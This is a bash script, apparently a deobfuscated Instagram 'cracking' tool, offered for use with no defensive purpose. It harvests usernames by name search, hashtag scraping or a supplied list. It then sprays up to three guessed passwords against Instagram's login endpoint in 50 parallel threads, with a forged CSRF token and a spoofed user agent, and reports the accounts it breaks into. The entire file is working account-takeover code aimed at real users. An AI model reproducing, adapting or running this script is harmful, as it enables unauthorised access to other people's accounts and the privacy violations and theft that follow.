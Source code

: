 # Deobfuscated BY HTR-TECH | Tahmid Rayat

# Github    : https://github.com/htr-tech 
# Instagram : https://www.instagram.com/tahmid.rayat
# Facebook  : https://fb.com/tahmid.rayat.oficial 
# Messenger : https://m.me/tahmid.rayat.oficial 

limit=50
logo="""\e[1;37m
██████╗░███╗░░██╗███████╗
██╔══██╗████╗░██║╚════██║
██████╦╝██╔██╗██║░░███╔═╝
██╔══██╗██║╚████║██╔══╝░░
██████╦╝██║░╚███║███████╗
╚═════╝░╚═╝░░╚══╝╚══════╝
--------------------------------------------------
➣ Auther   : Binyamin
➣ GitHub   : https://github.com/binyamin-binni
➣ YouTube  : Trick Proof
➣ Blogspot : https://trickproof.blogspot.com
--------------------------------------------------
"""
dependencies=( "jq" "curl" )
for i in "${dependencies[@]}"
do
command -v $i >/dev/null 2>&1 || {
apt install jq
apt install curl
}
done
clear
echo -e "${logo}"
echo -e '''
[1] Crack By Searching Name
[2] Crack By HashTag
[3] Crack From List
'''
echo -e "\e[1;37m--------------------------------------------------"
read -p $'\e[1;33m Select An Option   : \e[1;37m' opt
touch target
case $opt in
1) # menu 1
clear
echo -e "${logo}"
read -p $' \e[1;33mPut  Any  Name    : \e[1;37m' ask
collect=$(curl -s "https://www.instagram.com/web/search/topsearch/?context=blended&query=${ask}" | jq -r '.users[].user.username' > target)
echo $' \e[1;33mTotal Users Found : '$collect''$(< target wc -l ; echo -e)
read -p $'\e[1;33m Put Password No 1 : \e[1;37m' ps1
read -p $'\e[1;33m Put Password No 2 : \e[1;37m' ps2
read -p $'\e[1;33m Put Password No 3 : \e[1;37m' ps3
echo -e "\e[1;31m Start cracking..."
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
echo -e " \e[1;33mTrying Password No 1"
;;
2) # menu 2
clear
echo -e "${logo}"
read -p $'\e[1;33m Put Any HashTag : \e[1;37m' hashtag
get=$(curl -sX GET "https://www.instagram.com/explore/tags/${hashtag}/?__a=1")
if [[ $get =~ "Page Not Found" ]]; then
echo -e " \e[1;31mHashtag not found\e[1;37m"
exit
else
echo -e "$get" | jq -r '.[].hashtag.edge_hashtag_to_media.edges[].node.shortcode' | awk '{print "https://www.instagram.com/p/"$0"/"}' > result
$(sort -u result > hashtag)
echo $" \e[1;33mTotal Users Found : "$(< hashtag wc -l ; echo -e)
read -p $'\e[1;33m Put Password No 1 : \e[1;37m' ps1
read -p $'\e[1;33m Put Password No 2 : \e[1;37m' ps2
read -p $'\e[1;33m Put Password No 3 : \e[1;37m' ps3
echo -e "\e[1;31m Start cracking..."
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
echo -e " \e[1;33mTrying Password No 1"
for tag in $(cat hashtag); do
echo $tag | xargs -P 100 curl -s | grep -o "alternateName.*" | cut -d "@" -f2 | cut -d '"' -f1 >> target &
done
wait
rm hashtag result
fi
;;
3) # menu 3
clear
echo -e "${logo}"
read -p $'\e[1;33m Put The File Path : \e[1;37m' list
if [[ ! -e $list ]]; then
echo -e "\e[1;31mfile not found\e[1;37m"
exit
else
cat $list > target
echo $" \e[1;33mTotal Users Found : "$(< target wc -l)
read -p $'\e[1;33m Put Password No 1 : \e[1;37m' ps1
read -p $'\e[1;33m Put Password No 2 : \e[1;37m' ps2
read -p $'\e[1;33m Put Password No 3 : \e[1;37m' ps3
echo -e "\e[1;31m Start cracking..."
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
echo -e " \e[1;33mTrying Password No 1"
fi
;;
*) # wrong menu
echo -e "\e[1;31mselect the correct option"
sleep 1
clear
bash .README.md
esac
token=$(curl -sLi "https://www.instagram.com/accounts/login/ajax/" | grep -o "csrftoken=.*" | cut -d "=" -f2 | cut -d ";" -f1)
function brute(){
url=$(curl -s -c cookie.txt -X POST "https://www.instagram.com/accounts/login/ajax/" \
-H "cookie: csrftoken=${token}" \
-H "origin: https://www.instagram.com" \
-H "referer: https://www.instagram.com/accounts/login/" \
-H "user-agent: Mozilla/5.0 (Linux; Android 6.0.1; SAMSUNG SM-G930T1 Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/4.0 Chrome/44.0.2403.133 Mobile Safari/537.36" \
-H "x-csrftoken: ${token}" \
-H "x-requested-with: XMLHttpRequest" \
-d "username=${i}&password=${ps1}")
login=$(echo $url | grep -o "authenticated.*" | cut -d ":" -f2 | cut -d "," -f1)
if [[ $login =~ "true" ]]; then
echo -e ""
echo -e "\e[1;37m--------------------------------------------------"
echo -e " \e[1;32mUsername : $i"
echo -e " Password : ${ps1}"
echo -e " Status   : Successfull"
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
elif [[ $login =~ "false" ]]; then
echo -e "\e[1;37m[Not Cracked\e[1;37m]  @$i"
elif [[ $url =~ "checkpoint_required" ]]; then
echo -e ""
echo -e "\e[1;37m--------------------------------------------------"
echo -e " \e[1;31mUsername : $i"
echo -e " Password : ${ps1}"
echo -e " Status   : Checkpoint"
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
fi
}
(
for i in $(cat target); do
((thread=thread%limit)); ((thread++==0)) && wait
brute "$i" &
done
wait
)
rm -rf target
touch target
case $opt in
1) # menu 1
echo -e ""
echo -e " \e[1;33mTrying Password No 2"
collect=$(curl -s "https://www.instagram.com/web/search/topsearch/?context=blended&query=${ask}" | jq -r '.users[].user.username' > target)
;;
2) # menu 2
echo -e ""
echo -e " Trying Password No 2"
get=$(curl -sX GET "https://www.instagram.com/explore/tags/${hashtag}/?__a=1")
if [[ $get =~ "Page Not Found" ]]; then
echo -e " \e[1;31mHashtag not found\e[1;37m"
exit
else
echo -e "$get" | jq -r '.[].hashtag.edge_hashtag_to_media.edges[].node.shortcode' | awk '{print "https://www.instagram.com/p/"$0"/"}' > result
$(sort -u result > hashtag)
for tag in $(cat hashtag); do
echo $tag | xargs -P 100 curl -s | grep -o "alternateName.*" | cut -d "@" -f2 | cut -d '"' -f1 >> target &
done
wait
rm hashtag result
fi
;;
3) # menu 3
echo -e ""
echo -e " Trying Password No 2"
if [[ ! -e $list ]]; then
echo -e "\e[1;31mfile not found\e[1;37m"
exit
else
cat $list > target
fi
;;
esac
token=$(curl -sLi "https://www.instagram.com/accounts/login/ajax/" | grep -o "csrftoken=.*" | cut -d "=" -f2 | cut -d ";" -f1)
function brute(){
url=$(curl -s -c cookie.txt -X POST "https://www.instagram.com/accounts/login/ajax/" \
-H "cookie: csrftoken=${token}" \
-H "origin: https://www.instagram.com" \
-H "referer: https://www.instagram.com/accounts/login/" \
-H "user-agent: Mozilla/5.0 (Linux; Android 6.0.1; SAMSUNG SM-G930T1 Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/4.0 Chrome/44.0.2403.133 Mobile Safari/537.36" \
-H "x-csrftoken: ${token}" \
-H "x-requested-with: XMLHttpRequest" \
-d "username=${i}&password=${ps2}")
login=$(echo $url | grep -o "authenticated.*" | cut -d ":" -f2 | cut -d "," -f1)
if [[ $login =~ "true" ]]; then
echo -e ""
echo -e "\e[1;37m--------------------------------------------------"
echo -e " \e[1;32mUsername : $i"
echo -e " Password : ${ps2}"
echo -e " Status   : Successfull"
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
elif [[ $login =~ "false" ]]; then
echo -e "\e[1;37m[Not Cracked\e[1;37m]  @$i"
elif [[ $url =~ "checkpoint_required" ]]; then
echo -e ""
echo -e "\e[1;37m--------------------------------------------------"
echo -e " \e[1;31mUsername : $i"
echo -e " Password : ${ps2}"
echo -e " Status   : Checkpoint"
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
fi
}
(
for i in $(cat target); do
((thread=thread%limit)); ((thread++==0)) && wait
brute "$i" &
done
wait
)
rm -rf target
case $opt in
1) # menu 1
echo -e ""
echo -e "\e[1;33m Trying Password No 3"
collect=$(curl -s "https://www.instagram.com/web/search/topsearch/?context=blended&query=${ask}" | jq -r '.users[].user.username' > target)
;;
2) # menu 2
echo -e ""
echo -e " \e[1;33mTrying Password No 3"
get=$(curl -sX GET "https://www.instagram.com/explore/tags/${hashtag}/?__a=1")
if [[ $get =~ "Page Not Found" ]]; then
echo -e " \e[1;31mHashtag not found\e[1;37m"
exit
else
echo -e "$get" | jq -r '.[].hashtag.edge_hashtag_to_media.edges[].node.shortcode' | awk '{print "https://www.instagram.com/p/"$0"/"}' > result
$(sort -u result > hashtag)
for tag in $(cat hashtag); do
echo $tag | xargs -P 100 curl -s | grep -o "alternateName.*" | cut -d "@" -f2 | cut -d '"' -f1 >> target &
done
wait
rm hashtag result
fi
;;
3) # menu 3
echo -e ""
echo -e " \e[1;33mTrying Password No 3"
if [[ ! -e $list ]]; then
echo -e "\e[1;31mfile not found\e[1;37m"
exit
else
cat $list > target
fi
;;
esac
token=$(curl -sLi "https://www.instagram.com/accounts/login/ajax/" | grep -o "csrftoken=.*" | cut -d "=" -f2 | cut -d ";" -f1)
function brute(){
url=$(curl -s -c cookie.txt -X POST "https://www.instagram.com/accounts/login/ajax/" \
-H "cookie: csrftoken=${token}" \
-H "origin: https://www.instagram.com" \
-H "referer: https://www.instagram.com/accounts/login/" \
-H "user-agent: Mozilla/5.0 (Linux; Android 6.0.1; SAMSUNG SM-G930T1 Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/4.0 Chrome/44.0.2403.133 Mobile Safari/537.36" \
-H "x-csrftoken: ${token}" \
-H "x-requested-with: XMLHttpRequest" \
-d "username=${i}&password=${ps3}")
login=$(echo $url | grep -o "authenticated.*" | cut -d ":" -f2 | cut -d "," -f1)
if [[ $login =~ "true" ]]; then
echo -e ""
echo -e "\e[1;37m--------------------------------------------------"
echo -e " \e[1;32mUsername : $i"
echo -e " Password : ${ps3}"
echo -e " Status   : Successfull"
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
elif [[ $login =~ "false" ]]; then
echo -e "\e[1;37m[Not Cracked\e[1;37m]  @$i"
elif [[ $url =~ "checkpoint_required" ]]; then
echo -e ""
echo -e "\e[1;37m--------------------------------------------------"
echo -e " \e[1;31mUsername : $i"
echo -e " Password : ${ps3}"
echo -e " Status   : Checkpoint"
echo -e "\e[1;37m--------------------------------------------------"
echo -e ""
fi
}
(
for i in $(cat target); do
((thread=thread%limit)); ((thread++==0)) && wait
brute "$i" &
done
wait
)
rm -rf target
echo -e
echo -e " Process has been complete"
read -p $" Press enter to go back"
bash .README.md
